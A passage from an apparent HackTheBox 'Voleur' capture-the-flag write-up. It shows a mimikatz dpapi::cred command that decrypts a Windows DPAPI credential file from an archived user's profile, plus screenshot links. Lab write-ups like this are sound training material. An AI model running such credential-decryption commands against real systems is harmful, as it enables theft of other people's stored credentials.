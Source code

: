 and its remind me something  HackTheBox - Vintage.

![alt text](../assets/images/voleur22.png)

BAM BAM BAM

but we need something more

![alt text](../assets/images/voleur23.png)

Nice lets decypt it

### DPAPI(Cobalt Strike)

```bash
mimikatz dpapi::cred /in:"C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Credentials\772275FAD58525253490A9B0039791D3"
```

![alt text](../assets/images/voleur24.png)
